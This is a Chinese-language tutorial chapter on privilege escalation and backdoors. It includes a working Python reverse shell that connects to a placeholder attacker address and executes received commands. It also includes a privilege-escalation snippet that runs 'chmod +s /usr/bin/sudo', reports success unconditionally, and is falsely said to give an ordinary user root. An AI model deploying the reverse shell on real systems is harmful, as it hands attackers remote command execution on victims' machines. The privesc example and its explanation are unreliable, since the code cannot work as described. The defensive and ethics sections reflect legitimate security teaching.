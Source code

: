 提權技術與系統後門是駭客攻擊中常見的手段，用於繞過權限限制並獲取系統的完全控制權。這些攻擊通常發生在成功入侵目標系統後，攻擊者利用漏洞來提升自身權限或設置後門以便後續訪問。

### 1. **提權技術**
提權（Privilege Escalation）是指攻擊者在獲取系統初步訪問後，通過利用系統中的漏洞或錯誤配置來提升自己的權限，通常從普通用戶權限提升到管理員或 root 權限。提權可分為兩種方式：
- **水平提權**：攻擊者獲取與當前用戶相同級別的權限。
- **垂直提權**：攻擊者將權限從較低級別提升至較高級別（例如從普通用戶提權至 root 或 Administrator）。

#### 常見的提權技術：
- **弱配置和不當的文件權限**：攻擊者利用文件或目錄的錯誤配置來獲取更高的訪問權限。
- **軟件漏洞**：利用操作系統或應用程序中的已知漏洞來提升權限，例如利用緩衝區溢出漏洞。
- **Sudo 提權**：在 Linux 系統中，攻擊者利用配置錯誤或錯誤的 sudo 設置來執行以 root 權限運行的命令。
- **漏洞利用（Exploit）**：攻擊者使用已知的漏洞來直接提權，例如本地提權漏洞。

### 2. **系統後門**
後門（Backdoor）是指攻擊者設置在受害系統中的隱秘入口，用於未來重新訪問或控制該系統。後門可以通過多種方式設置，例如修改系統設定、安裝後門程序、或者創建用戶賬號。

#### 常見的後門技術：
- **反向 shell**：攻擊者在受害主機上創建反向 shell 連接到攻擊者的控制端。
- **網絡後門**：攻擊者通過在目標系統中安裝網絡後門程序，能夠隨時控制受害主機。
- **修改系統登錄腳本**：攻擊者通過修改系統的啟動腳本，讓後門在系統啟動時自動運行。
- **後門用戶賬戶**：創建一個具有高權限的用戶賬戶，未來攻擊者可以通過這個賬戶登錄系統。

### 3. **Python 實作提權和後門範例**

以下是兩個簡單的 Python 範例，展示如何模擬提權技術和設置後門。請注意，這些範例僅用於學術研究與安全測試，請勿在未經授權的系統上運行這些代碼。

#### 3.1 **反向 Shell（後門）**
反向 shell 是一種常見的後門技術，攻擊者讓目標機器連接回自己的機器，從而獲取遠程控制。

```python
import socket
import subprocess

# 攻擊者的 IP 地址和端口
attacker_ip = 'attacker_ip_here'
attacker_port = 9999

# 建立到攻擊者的反向連接
def reverse_shell():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))
        
        while True:
            # 接收命令並執行
            command = s.recv(1024).decode('utf-8')
            if command.lower() == 'exit':
                break
            output = subprocess.run(command, shell=True, capture_output=True)
            s.send(output.stdout + output.stderr)
        
        s.close()
    except Exception as e:
        print(f"Error: {e}")

# 執行反向 shell
reverse_shell()
```

這段代碼將創建一個反向 shell 連接到攻擊者的 IP 地址和端口，並等待攻擊者發送命令來執行。

#### 3.2 **利用文件權限提升（提權技術）**
如果系統中某些文件的權限設置不當，攻擊者可以修改這些文件來獲取更高的權限。

```python
import os

# 嘗試提升權限
def escalate_privileges():
    try:
        # 嘗試修改具有 root 權限的文件
        os.system('chmod +s /usr/bin/sudo')  # 設置 sudo 權限
        print("Privilege escalation attempt successful")
    except Exception as e:
        print(f"Error: {e}")

# 嘗試提權
escalate_privileges()
```

這段代碼演示了如何修改某些文件的權限以進行提權。攻擊者可以通過此方法將普通用戶變為具有 root 權限的用戶。

### 4. **防範提權與後門的措施**
為了防範提權技術和後門，可以採取以下防護措施：
- **定期審查文件權限**：檢查系統中重要文件和目錄的權限，防止未經授權的修改。
- **使用 SELinux 或 AppArmor**：這些安全模塊可以幫助限制進程的權限，防止提權攻擊。
- **強化用戶認證**：強化系統用戶的登錄認證，禁用默認的管理員賬戶，並定期更換密碼。
- **監控系統日志**：定期監控系統日志，檢查是否有異常登錄或未授權的系統修改。
- **安裝入侵檢測系統（IDS）**：IDS 能夠檢測異常的行為並發出警報，幫助防止未授權的操作。

### 5. **倫理與合法性**
進行提權和後門設置的行為必須得到適當的授權。未經授權進行此類活動是違法的，並可能面臨刑事責任。任何類型的安全測試都應該在明確的法律框架和道德準則下進行，並且必須取得受測系統所有者的書面同意。

### 結論
本章介紹了提權技術和系統後門，並展示了如何使用 Python 實現這些攻擊技術。雖然這些技術在駭客攻擊中經常使用，但了解它們能幫助安全專家設計更加有效的防禦機制，保護系統免受攻擊。